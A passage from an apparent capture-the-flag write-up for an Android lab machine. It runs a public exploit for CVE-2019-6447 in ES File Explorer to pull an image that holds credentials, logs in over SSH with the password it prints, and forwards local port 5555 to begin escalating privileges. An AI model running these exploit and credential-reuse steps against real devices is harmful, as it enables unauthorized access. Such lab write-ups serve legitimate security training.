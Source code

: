 ```bash
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```
Now we can download this file and see what we have:  
```bash
[root@kali exploits ]$ python3 50070.py getFile $TARGET /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
[root@kali exploits ]$ ls
50070.py  out.dat
```
Now we can rename `out.dat` and see the image content odf the file.  
As we can notice, the file contains credentials `kristi:Kr1sT!5h@Rp3xPl0r3!`, now we can try to use this credentials against the SSH service:  
```bash
[root@kali Explore ]$ ssh -o HostKeyAlgorithms=+ssh-rsa -l kristi $TARGET -p 2222
Password authentication
(kristi@10.10.10.247) Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
```
and gain access as user `kristi`

## Root
Once we log in, we can look for processes listening on localhost:  
```bash
127|:/ $ ss -lnpt
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      8       [::ffff:127.0.0.1]:46407                    *:*                  
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=9268,fd=70),("sh",pid=5942,fd=70),("sh",pid=5797,fd=70),("droid.sshserver",pid=3271,fd=70))
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      10           *:42135                    *:*                  
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      50       [::ffff:10.10.10.247]:37059                    *:*     
```
as we can see we have a process listening on port 5555. The same was discovered during the initial enumeration but we couldn't access the port because it was filtered.  
Now that we have access we can forward this port typing `~C` and entering ssh shell and forward port 5555 to our local client and see what we have:
```bash
127|:/ $ 
ssh> -L 5555:127.0.0.1:5555
Forwarding port.
```
Now we can see that we have a process listening on port 5555:
```bash
[root@kali Explore ]$ netstat -anp | grep 5555
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      3741/ssh            
tcp6       0      0 ::1:5555                :::*                    LISTEN      3741/ssh      
```
Running nmap against localhost:5555 does not allow us to gain knowledge about the service:
```bash
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000053s latency).

```